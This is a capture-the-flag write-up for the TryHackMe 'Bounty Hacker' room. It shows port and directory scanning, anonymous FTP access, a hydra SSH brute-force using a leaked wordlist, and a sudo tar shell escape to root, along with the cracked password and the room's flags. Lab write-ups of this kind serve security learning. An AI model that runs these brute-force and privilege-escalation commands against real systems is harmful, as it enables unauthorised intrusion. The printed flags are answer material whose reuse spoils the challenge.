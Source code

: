 ## Bounty Hacker - TryHackMe Writeup

[Room Link](https://tryhackme.com/room/cowboyhacker)

<i>You were boasting on and on about your elite hacker skills in the bar and a few Bounty Hunters decided they'd take you up on claims! Prove your status is more than just a few glasses at the bar. I sense bell peppers & beef in your future!</i> 

**IP: 10.10.192.55**

---

## 📌 General Information

**Room Difficulty**: Easy  <br>

**Room Type**: Linux Privilege Escalation, Brute Force <br>

**Tools Used**: Nmap, Gobuster, Hydra<br>

**Author**: <br>

[<img align='center' src="https://github.com/mauzware/mauzware/blob/main/LOGO%20NEW.png"/>](https://github.com/mauzware)

[TryHackMe Profile](https://tryhackme.com/p/mauzinho) <br>
[GitHub Profile](https://github.com/mauzware)

---

## 🔍 Enumeration

- As always start with Nmap and Gobuster.

  ```
  nmap -sC -sV -T5 -p- 10.10.192.55

  PORT   STATE SERVICE VERSION
  21/tcp open  ftp     vsftpd 3.0.3
  | ftp-syst: 
  |   STAT: 
  | FTP server status:
  |      Connected to ::ffff:
  |      Logged in as ftp
  |      TYPE: ASCII
  |      No session bandwidth limit
  |      Session timeout in seconds is 300
  |      Control connection is plain text
  |      Data connections will be plain text
  |      At session startup, client count was 4
  |      vsFTPd 3.0.3 - secure, fast, stable
  |_End of status
  | ftp-anon: Anonymous FTP login allowed (FTP code 230)
  |_Can't get directory listing: TIMEOUT
  22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
  | ssh-hostkey: 
  |   2048 dc:f8:df:a7:a6:00:6d:18:b0:70:2b:a5:aa:a6:14:3e (RSA)
  |   256 ec:c0:f2:d9:1e:6f:48:7d:38:9a:e3:bb:08:c4:0c:c9 (ECDSA)
  |_  256 a4:1a:15:a5:d4:b1:cf:8f:16:50:3a:7d:d0:d8:13:c2 (ED25519)
  80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
  |_http-server-header: Apache/2.4.18 (Ubuntu)
  |_http-title: Site doesn't have a title (text/html).
  Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
  ```

  ```
  gobuster dir -u http://10.10.192.55/ -w /usr/share/wordlists/dirb/common.txt 

  ===============================================================
  Starting gobuster in directory enumeration mode
  ===============================================================
  /.htaccess            (Status: 403) [Size: 277]
  /.hta                 (Status: 403) [Size: 277]
  /.htpasswd            (Status: 403) [Size: 277]
  /images               (Status: 301) [Size: 313] [--> http://10.10.192.55/images/]
  /index.html           (Status: 200) [Size: 969]
  /server-status        (Status: 403) [Size: 277]
  Progress: 4614 / 4615 (99.98%)
  ===============================================================
  Finished
  ===============================================================
  ```
  
- When I visited web page I found nothing except GOATED ANIME EVER OFC!!! ❤️
  
- Since we can login as Anonymous with FTP, let's do that. There's two files in that directory, get them both to your Kali.

  ```
  ftp 10.10.192.55
  Anonymous
  
  
  ftp> ls
  229 Entering Extended Passive Mode (|||64010|)
  pwd
  ^C
  receive aborted. Waiting for remote to finish abort.
  ftp> 
  ftp> passive
  Passive mode: off; fallback to active mode: off.
  ftp> ls
  200 EPRT command successful. Consider using EPSV.
  150 Here comes the directory listing.
  -rw-rw-r--    1 ftp      ftp           418 Jun 07  2020 locks.txt
  -rw-rw-r--    1 ftp      ftp            68 Jun 07  2020 task.txt
  226 Directory send OK.
  ftp> pwd
  Remote directory: /

  cat task.txt    
  1.) Protect Vicious.
  2.) Plan for Red Eye pickup on the moon.
  
  -lin
  
  cat locks.txt 
  rEddrAGON
  ReDdr4g0nSynd!cat3
  Dr@gOn$yn9icat3
  R3DDr46ONSYndIC@Te
  ReddRA60N
  R3dDrag0nSynd1c4te
  dRa6oN5YNDiCATE
  ReDDR4g0n5ynDIc4te
  R3Dr4gOn2044
  RedDr4gonSynd1cat3
  R3dDRaG0Nsynd1c@T3
  Synd1c4teDr@g0n
  reddRAg0N
  REddRaG0N5yNdIc47e
  Dra6oN$yndIC@t3
  4L1mi6H71StHeB357
  rEDdragOn$ynd1c473
  DrAgoN5ynD1cATE
  ReDdrag0n$ynd1cate
  Dr@gOn$yND1C4Te
  RedDr@gonSyn9ic47e
  REd$yNdIc47e
  dr@goN5YNd1c@73
  rEDdrAGOnSyNDiCat3
  r3ddr@g0N
  ReDSynd1ca7e
  ```

- Beautiful, we even have brute force material, let's do it.

  ```
  hydra -l lin -P locks.txt 10.10.192.55 ssh
  [22][ssh] host: 10.10.192.55   login: lin   password: RedDr4gonSynd1cat3
  1 of 1 target successfully completed, 1 valid password found
  ```

---

## 🧍 User Privilege Escalation

- After logging in with SSH, first flag is already there. Moving to root flag.

  ```
  lin@bountyhacker:~/Desktop$ pwd
  /home/lin/Desktop
  
  lin@bountyhacker:~/Desktop$ ls
  user.txt
  
  lin@bountyhacker:~/Desktop$ cat user.txt 
  THM{CR1M3_SyNd1C4T3}
  ```
  
---

## 👑 Root Privilege Escalation

- For this one `sudo -l` did all the job, you can find the exploit on GTFOBins.

  ```
  lin@bountyhacker:~/Desktop$ sudo -l
  [sudo] password for lin: 
  Matching Defaults entries for lin on bountyhacker:
      env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
  
  User lin may run the following commands on bountyhacker:
      (root) /bin/tar
  
  lin@bountyhacker:~/Desktop$ sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
  tar: Removing leading `/' from member names
  # whoami
  root
  # id
  uid=0(root) gid=0(root) groups=0(root)
  # cat /root/root.txt
  THM{80UN7Y_h4cK3r}
  ```
  
- That's all folks, I still can't believe that I did this CTF in less than 5 minutes lol. Happy Hacking!

---

## 🏁 Flags

- **User Flag**: `THM{CR1M3_SyNd1C4T3}`
- **Root Flag**: `THM{80UN7Y_h4cK3r}`

---

## 💬 Notes & Reflections

- What was challenging in this room for me?
  `/`

- What did I learn?
  `That I improved my skills a lot, I finished this CTF in less than 5 min. Started at 22:03 and finished at 22:07.`

- I would recommend this room or any type of CTF challenge to every Cyber Security enthusiast since it will sharpen your skills better than any book/tutorial/course or walkthrough rooms on many different platforms!

- Thank you for reading! Enjoy, Have Fun and Happy Hacking! 🤟

---

